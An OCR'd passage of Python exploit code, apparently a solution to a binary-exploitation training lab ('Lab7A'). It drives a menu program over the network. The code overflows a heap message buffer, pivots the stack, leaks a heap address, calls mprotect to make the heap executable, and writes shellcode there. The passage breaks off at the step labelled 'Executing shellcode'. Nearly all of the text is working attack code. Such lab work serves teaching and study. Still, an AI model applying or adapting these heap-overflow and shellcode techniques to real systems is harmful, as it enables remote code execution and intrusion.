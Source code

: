 ```python
        pwnlog.progress("Editing message")
        resp += self.send_and_receive(b"2\r\n")
        resp += self.send_and_receive(self.to_fgets(message_index, 32))
        resp += self.send_and_receive(new_data)
        return resp

    def print_index(self, message_index):
        resp = bytes()

        pwnlog.progress("Printing index")
        resp += self.send_and_receive(b"4\r\n")
        resp += self.send_and_receive(self.to_fgets(message_index, 32))
        return resp

    def quit(self):
        resp = bytes()

        pwnlog.progress("Quitting")
        resp += self.send_and_receive(b"5\r\n", timeout=1)
        return resp


    def extract_leaked_address(response):
        stamp = b"Input message index to print: "
        start = response.find(stamp) + len(stamp)
        end = response.find(stamp) + len(stamp) + 4
        return u32(response[start:end])


def exploit():
    with Lab7AExploit(REMOTE_ADDR, REMOTE_PORT) as lab7a_exploit:
        try:
            lab7a_exploit.create_message(b"131", (b"A" * 128) + pack(0x90, 24))
            lab7a_exploit.create_message(b"128", b"B" * 128)
            lab7a_exploit.edit_message(b"0", (b"A" * 128) + p32(0x110) + p32(264) + p32(264) + p32(STACK_PIVOT_GADGET_ADDR))

            # Info leak
            response = lab7a_exploit.print_index(
                b"1\x00" + b"A" * 6 + p32(PRINTF_ADDR) + p32(MAIN_ADDR) + p32(GLOBAL_MESSAGES_ARRAY_ADDR))
            leaked_heap_address = extract_leaked_address(response)
            pwnlog.success("Leaked 0x%x" % leaked_heap_address)


            # Make heap executable
            pwnlog.info("Making heap executable")
            lab7a_exploit.print_index(
                b"1\x00" + b"A" * 6 + p32(MPROTECT_ADDR) + p32(MAIN_ADDR) + p32(leaked_heap_address & -PAGE_SIZE) +
                p32(PAGE_SIZE) + p32(PROT_WRITE | PROT_READ | PROT_EXEC))
            shellcode_address = leaked_heap_address + 276

            # Prepare shellcode for execution
            with open(SHELLCODE_FILE, "rb") as _shellcode_f:
                shellcode = _shellcode_f.read()
                pwnlog.info("Writing shellcode to heap")
                lab7a_exploit.edit_message(b"0",(b"A" * 128) + p32(0x110) + p32(264) + p32(1)   + p32(shellcode_address) + shellcode + (b"A" * (128 - len(shellcode))))


            # Call shellcode
            pwnlog.info("Executing shellcode")
```